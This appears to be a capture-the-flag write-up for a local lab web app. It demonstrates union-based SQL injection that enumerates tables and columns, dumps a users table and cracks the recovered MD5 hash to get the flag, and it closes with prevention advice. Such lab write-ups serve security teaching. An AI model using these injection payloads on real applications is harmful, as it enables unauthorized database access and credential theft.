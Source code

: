 ## where

http://localhost:8080/?page=member


## Explanation

SQL injection vulnerabilities occur when an attacker is able to insert or "inject" a SQL query via the input data from the client to the application. This document details various types of SQL injection attacks, including table name disclosure, boolean-based SQL injection, column name disclosure, and data extraction, highlighting the potential for unauthorized access to or manipulation of database information.


## Queries

### basic example
    1 OR 1=1
example: in backend if there is:
    SELECT * FROM users WHERE id = '1 OR 1=1';
    SELECT * FROM users WHERE id = 1 OR 1=1; (true)
returns everything from the table users

With this we know we can obtain 2 columns


### table names
    1 OR 1=2 UNION SELECT null, table_name FROM information_schema.tables
We'll need the table 'users'

### column names
    1 UNION SELECT table_name, column_name FROM information_schema.columns
    or
    1 OR 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
We'll need the columns 'Commentaire' and 'countersign'

### extract table data
    1 OR 1=2 UNION SELECT Commentaire, countersign from users
we get:
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28


## Decrypt password
Decrypt '5ff9d0165b4f92b14994e5c685cdce28' with MD5
https://md5decrypt.net/en/

Output = 'FortyTwo'

Convert to lowercase and encrypt with SHA256

run script


## How to prevent

Parameterized Queries: Use parameterized queries to prevent SQL injection, as they ensure that the input is treated as a data value rather than part of the SQL command.

Input Validation: Implement strict input validation checks to reject suspicious or malformed data.

Use of Prepared Statements: With prepared statements, the SQL query is defined separately from its parameters, minimizing the risk of injection.

Employ Stronger Hashing Algorithms: Replace MD5 with more secure hashing algorithms like SHA-256 to enhance cryptographic security.
